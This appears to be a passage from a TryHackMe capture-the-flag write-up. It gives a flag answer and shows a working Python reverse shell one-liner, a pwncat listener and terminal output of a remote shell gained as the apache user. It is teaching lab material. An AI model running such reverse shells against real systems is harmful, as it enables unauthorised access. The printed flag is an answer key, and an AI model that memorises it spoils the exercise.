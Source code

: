 ## Q1 answer

The answer is **THM{fl46_650c844110baced87e1606453b93f22a}**

Now that we’ve got a shell on the target we might want to stabilize it as we can’t do much with it.

In order to do that I like using `pwncat` (https://github.com/calebstewart/pwncat) which is a really useful tool. Go check it out !

We can get a stable reverse shell using the following commands.

First start the pwncat listener

```bash
pwncat -lp 4444
[11:35:05] Welcome to pwncat 🐈!                                                                        __main__.py:164
bound to 0.0.0.0:4444
```

Then we can create a reverse shell in Python

```bash
# which python # We first check that Python is available on the target machine
/usr/bin/python

# Next we execute the Python reverse shell
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<THM_LOCAL_IP",4444));[os.dup2(s.fileno(),f)for f in(0,1
,2)];pty.spawn("sh")'
```

```bash
pwncat -lp 4444
[11:35:05] Welcome to pwncat 🐈!                                                                        __main__.py:164
[11:37:48] received connection from 10.10.35.124:53306                                                       bind.py:84
[11:37:49] 0.0.0.0:4444: upgrading from /usr/bin/dash to /usr/bin/bash                                   manager.py:957
[11:37:50] 10.10.35.124:53306: registered new host w/ db                                                 manager.py:957
(local) pwncat$
# Using CTRL + D we get a clean reverse shell                                                                                                       
(remote) apache@tryhackme:/data/www/default$ id
uid=1001(apache) gid=1001(apache) groups=1001(apache)
```

**Note : I tried many reverse shell payloads (Bash, Netcat, Perl, etc) but I kept getting this error : `[-] No valid response received or target not vulnerable` . Only the Python one worked for me.**

## Post exploitation

Ok now that we’ve gained access to the target machine we need to find a “suspicious process”.
